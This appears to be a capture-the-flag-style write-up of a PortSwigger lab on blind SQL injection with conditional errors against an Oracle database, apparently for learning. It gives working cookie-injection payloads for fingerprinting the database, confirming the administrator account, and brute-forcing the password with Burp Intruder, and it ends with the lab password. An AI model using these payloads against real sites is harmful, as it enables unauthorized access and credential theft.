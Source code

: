 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/efc4ad9e-de11-4b84-87bd-cc445f4ef423)

## Solution :

Query made - 

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>'
```
#### trying to find the error messages--

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''
```

Add an extra `'` symbol.it was showing error.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/1d39da04-bb00-4b76-877d-805ef4d941ba)

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'''
```

Add 2 extra `'` symbol.We get a response that shows the SQL syntax is right

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/042cb032-0ea4-4984-9707-f9a6f1eb88ca)

#### Checking database with conditional errors  -

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT '')||'
```
Error. This is because the database is **ORACLE**.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d0428fac-7368-49da-b2a6-2734ded02e40)
 
 for that we need to specify a table called **DUAL**
 
 ```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT ''FROM dual)||'
```
 
 ![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/5f52a53b-46a2-4ac8-83e9-2c0989533e43)

 No error we got respones.So it is orcal database.
 
#### Check Whether the users table is present  -

 ```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/9d7098fa-650d-4889-b8a0-06e9d038d7e5)

no erorr which means table exist.

*Keep in mind* > using WHERE ROWNUM = 1 is crucial. It ensures our query doesn't bring back more than one row, which could mess up our concatenation process.

#### Check Whether the username administrator is present in users table -

```Here table name is users```

We can exploit this error inducing queries to test if admin user is present or not.

>Points to rember here in qury it will always perform the `FROM` portion first if this is true then it will go to the `SELECT` portion.

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/8fd94e70-db25-4e08-b68c-f25af1e1139d)


We receive an error. means the condition is *TRUE* and username administrator is present in users table .

when we use `1=2`

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/0829dfc4-75e2-4075-afe2-375a8c7f96b4)

We receive no error. means the condition is *False* and username administrator is present in users table .

#### Determine the length of admin's password -

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND LENGTH(password)>25) ||'
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/503f1698-b7c9-417d-967c-0da900c2d30c)


```no error which which means the length of the password is less than 25```

```To find the length of the password send qury to  Intruder then and Add the password length part as payload and select attack type as SNIPER .Then go to  payload sleect payload type as numbers after that set from 1 to 25 and start the attack ```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND LENGTH(password)>$1$) ||'
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/33a82c83-2746-4cc4-bc58-10f0efb7f4bf)

From line  20, we are not  getting  an error where condition is *(LENGTH > 20)*.

![Screenshot 2024-02-04 212405](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4e5bb4c7-12a9-479b-8197-71eff7277f53)

Password length  is  **20** characters long.

#### Finding the  20 characters length password by Brute force -


```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND  SUBSTR(password,1,1)='a') ||'
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/f8c9435c-4342-4f0f-b277-589f73082569)

->a is not the first character of the password.

```To find the first character of the password send qury to  Intruder then and Add the string part as payload and select attack type as SNIPER .Then go to  payload sleect payload type as bruteforce set min and max =1  and start the attack ```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND  SUBSTR(password,1,1)='$a$') ||'
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/c375b8ff-289f-4be5-8881-f91e9e221ece)

Find 500 response code to find the first charactor of the password.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/67c93c82-c394-4bd1-984b-aa1c7ebb60a8)

we will able get the first character of the password that is  ```q```

Similarly we will find all the characters.So the password is ```qii57qhxt8oox3ezd9ot```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/21e2f840-dc21-4b4f-b21b-cbd49f11d676)
